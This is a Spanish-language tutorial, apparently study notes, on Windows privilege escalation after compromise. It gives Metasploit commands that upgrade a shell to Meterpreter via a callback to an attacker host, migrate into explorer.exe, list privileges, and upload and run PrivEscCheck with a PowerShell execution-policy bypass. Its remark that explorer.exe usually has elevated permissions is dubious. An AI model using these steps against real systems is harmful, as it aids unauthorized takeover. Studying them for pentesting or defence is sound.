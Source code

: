 # Windows – Privilege Escalation (con Meterpreter y PrivEscCheck)

---

## 1. Pasar de shell normal a Meterpreter
Si al principio tenemos una shell básica (cmd) en Metasploit, podemos mejorarla a Meterpreter:

```bash
use multi/manage/shell_to_meterpreter
set SESSION <ID>     # ID de la shell activa
set LHOST <IP atacante>
set LPORT <puerto>
exploit
```

Esto convierte la shell en una sesión **Meterpreter**, con todas sus funcionalidades.

---

## 2. Migración de proceso
Para estabilizar la sesión y evitar perderla:

```bash
ps                      # Ver procesos activos
pgrep explorer.exe      # Identificar PID de explorer.exe
migrate <PID>           # Migrar a proceso estable del usuario
```

- Migrar a `explorer.exe` es útil porque pertenece al usuario logueado y suele tener permisos elevados.

---

## 3. Verificación de permisos actuales
```bash
getuid      # Muestra el usuario actual
getprivs    # Lista los privilegios que tiene el proceso
```

- Aquí revisamos si tenemos privilegios interesantes (ej. `SeImpersonatePrivilege`, `SeDebugPrivilege`).

---

## 4. Subir **PrivEscCheck**
`PrivEscCheck.ps1` es un script de PowerShell para detectar rutas de escalada de privilegios.

### Subida al sistema:
```bash
upload /root/tools/PrivEscCheck.ps1 C:\\Temp\\PrivEscCheck.ps1
```

### Ejecución con bypass de políticas:
```bash
powershell -ep bypass
. C:\Temp\PrivEscCheck.ps1
Invoke-PrivEscCheck
```

---

## 5. ¿Qué hace PrivEscCheck?
- Revisa configuraciones del sistema en busca de **vulnerabilidades locales**.  
- Identifica **servicios mal configurados**, **archivos con permisos inseguros**, **UAC débil**, etc.  
- Da una lista de posibles vectores de escalada (ejemplo: credenciales guardadas, binarios con permisos de escritura, etc.).  

